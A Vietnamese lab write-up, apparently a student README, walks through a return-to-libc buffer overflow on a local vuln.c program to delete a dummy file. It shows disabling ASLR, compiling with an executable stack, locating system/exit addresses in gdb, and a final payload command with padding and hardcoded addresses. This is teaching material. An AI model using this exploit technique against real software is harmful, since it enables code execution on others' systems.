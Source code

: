 # Lab #3: exploit return-to-lib-c vulnerability, delete file "dummy" in directory /tmp/dummy using environment variable.

Chương trình vuln.c:

![image](https://github.com/user-attachments/assets/bbbda87b-19ca-436b-a825-79336ed28113)

Đầu tiên, Tạo 1 dummyfile bằng lệnh `touch dummyfile`

Kiểm tra lại dummyfile có tồn tại chưa:

![image](https://github.com/user-attachments/assets/27872dbf-36b9-4a38-9663-3840e3d5eecb)


Bắt đầu biên dịch chương trình

![image](https://github.com/user-attachments/assets/5ef2727e-c075-423f-b678-98248171fc62)

`-z execstack`: cho phép thực thi code trên stack

Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên

`sudo sysctl -w kernel.randomize_va_space=0`

![image](https://github.com/user-attachments/assets/37cc1b16-9177-4c97-88ce-51e552de75cc)

Bắt đầu biên dịch file_del.asm 

![image](https://github.com/user-attachments/assets/eff4c2c1-2389-418f-92b3-94dbe04c7a8c)

Sau đó tạo 1 biến môi trường có tên là exploitPath với đường dẫn đến file 'file_del'

![image](https://github.com/user-attachments/assets/754720b8-94be-4046-887c-a2b9ddd2b445)

Vẽ stackframe ta thấy được rằng

![image](https://github.com/user-attachments/assets/b646cafb-6b32-4e27-b4e1-4550b21ab1ce)

Để khai khác chương trình, ta cần overflow các địa chỉ sau:

- Để chạy được hàm `system` thì phải đè lên địa chỉ `system` lên địa chỉ `return address`
- Để về chương trình chính, địa chỉ `exit` phải đè lên bytes kế tiếp là `argc`
- Đối số của hàm system (`exploitPath` mới tạo hồi nãy) sẽ đè lên lên `argv`

Trước hết, ta phải tìm các địa chỉ bằng gdb:

  chạy chương trình trước khi tìm kiếm
  
![image](https://github.com/user-attachments/assets/a84afa5f-8662-458c-882b-9fd264993606)
![image](https://github.com/user-attachments/assets/13cb8354-34fa-4282-b4e8-3c42240d0d5e)

câu lệnh cuối cùng sẽ là: 

`r $(python -c "print('a'*68+'\xb0\x0d\xe5\xf7'+'\xe0\x49\xe4\xf7'+'\x6d\xd9\xff\xff')")`

kết quả:

![image](https://github.com/user-attachments/assets/ae351e39-2849-4b89-9dae-8a659950d9c4)












